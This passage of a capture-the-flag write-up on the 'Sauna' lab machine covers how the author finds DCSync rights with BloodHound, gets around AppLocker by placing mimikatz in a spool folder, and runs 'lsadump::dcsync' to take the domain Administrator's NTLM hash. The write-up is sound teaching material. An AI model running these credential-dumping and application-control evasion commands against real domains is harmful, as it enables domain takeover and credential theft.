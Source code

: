 <br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_35.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_36.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_37.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_38.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_39.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_40.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/sauna_writeup/Sauna_41.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

I continue my research with **BloodHound**, but I don't find much information relevant to the groups to which the accounts I managed to engage belong. Something I had overlooked is the **Outbound Object Control** that the **SVC_LOANMGR** account has, but more interestingly, I have the **Replicating Directory Changes** (**DS-Replication-Get-Changes**) and **Replicating Directory Changes All** (**DS-Replication-Get-Changes-All**) security permissions **enabled**, which would allow me to exploit a **[DCSync Attack](https://docs.tenable.com/identity-exposure/SaaS/Content/User/AttackPath/DCSync.htm){:target="_blank"}** with `mimikatz.exe` or even `impacket-secretsdump`. I just need to transfer `mimikatz.exe` to the victim machine, but I will perform an **[AppLocker Bypass](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md){:target="_blank"}** and save it in a special folder to avoid problems in its execution. Now I can perform the **[DCSync Attack](https://docs.tenable.com/identity-exposure/SaaS/Content/User/AttackPath/DCSync.htm){:target="_blank"}** and I manage to get the **NTLM Hash** of the **Administrator** account.

> **[AppLocker](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/applocker/what-is-applocker){:target="_blank"}** helps you create rules to allow or **deny apps** from running based on information about the apps' files. You can also use **AppLocker** to **control which users or groups can run those apps**.

> **Attacker Machine**:

```bash
# MemberOf Domain Users
# Outbound Object Control (EGOTISTICAL-BANK.LOCAL: Domain) --> GetChangesAll && GetChanges (Togheter!)
# Windows && Linux Abuse

locate mimikatz.exe | grep -v al3j0
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
```

> **Victime Machine**:

```cmd
cd C:\Windows\System32\spool\drivers\color
upload mimikatz.exe
.\mimikatz.exe "lsadump::dcsync /domain:EGOTISTICAL-BANK.LOCAL /user:Administrator"
```
